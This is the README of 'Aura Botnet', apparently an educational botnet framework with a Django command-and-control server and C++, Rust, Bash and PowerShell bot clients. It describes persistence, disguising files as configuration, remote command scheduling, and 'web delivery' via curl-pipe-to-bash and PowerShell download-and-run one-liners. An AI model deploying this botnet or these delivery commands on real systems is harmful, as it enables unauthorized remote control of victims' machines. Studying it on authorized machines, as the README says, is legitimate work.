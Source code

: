 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the [`aura-server`](aura-server)
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:server_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The C2 server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in [`aura-server/aura/settings.py`](aura-server/aura/settings.py).
You may wish to use MySQL, or even PostgreSQL instead; this easy to do thanks
to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell,
but are may lack certain functionality as they are mostly unsupported. I will fix
any major bugs that come to my attention, but they will continue to lack certain
features for the time being, such as running commands in different shells.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *auth file* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
### Docker
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

### From Git
To initialize the SQLite3 database, simply change into the [`aura-server`](aura-server)
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
[`runserver.sh`](aura-server/runserver.sh) is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

You can choose whichever client you feel is most appropriate for the platform
and use case, although specified above, the C++ client is the first priority
when it comes to features and stability.

### C++ Client
There are three header-only projects being used for this client. Thanks to the
following projects for their awesome work:
* [okdshin/PicoSHA2](https://github.com/okdshin/PicoSHA2/) -
A header-file-only, SHA256 hash generator in C++
* [Tencent/rapidjson](https://github.com/Tencent/rapidjson/) -
A fast JSON parser/generator for C++ with both SAX/DOM style API
* [catchorg/Catch2](https://github.com/catchorg/Catch2/) -
A modern, C++-native, header-only, test framework for unit-tests, TDD and BDD

If the repo was not cloned with the `--recursive` flag, pull the mentioned
dependencies by running:
```
git submodule update --init --recursive
```

For the Linux C++ client, you will also need *libcurl* installed with
development files. There may be a *libcurl-devel* or *libcurl-dev* package on
your distro that you need to install.

Afterward, change into the source directory ([`aura-client`](aura-client)).
Then build by running:
```
cmake .    # Run with "-DCMAKE_BUILD_TYPE=Debug" to build tests
make
```

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

Catch2 unit tests can be found under [`aura-client/tests/`](aura-client/tests/).
Do not run them in parallel. They rely on constant filenames and may interfere
with each other.

### Rust Client
For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory ([`alt-clients/rust/rust-linux`](alt-clients/rust/rust-linux) or
[`alt-clients/rust/rust-windows`](alt-clients/rust/rust-windows) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

### Powershell and Bash
The Powershell and Bash clients simply need to be executed on the target
machine.

Configuring Commands
---
These can easily be managed through the Django admin site or shell. The
client periodically communicates with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands are
received as a JSON object specifying the shell to run the command in, file
dependencies, and the command to execute.

Commands can be set to run for specific bot groups defined by operating
system and user privilege.  This is specified in
[`aura-server/groups.json`](aura-server/groups.json).
The only reserved group numbers are `-1`, for priority commands that are
run by all bots, and `-2`, for default commands that are run by all bots
only if there is no other command to run; you can also assign commands to
individual bots using the hash of their auth file.

Each command can be given a start time and end time. Oneshot commands will
only run once on each bot.

You can also specify file dependencies. These will be retrieved, before
running the command, into the same temporary directory that the command is
executed in. You can specify files on the bot's local filesystem with a file
path or a network file with a url path.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

<h2>This repo is for testing/demonstration purposes only. This is not meant to
be implemented in any real world applications except for testing on authorized
machines.</h2>
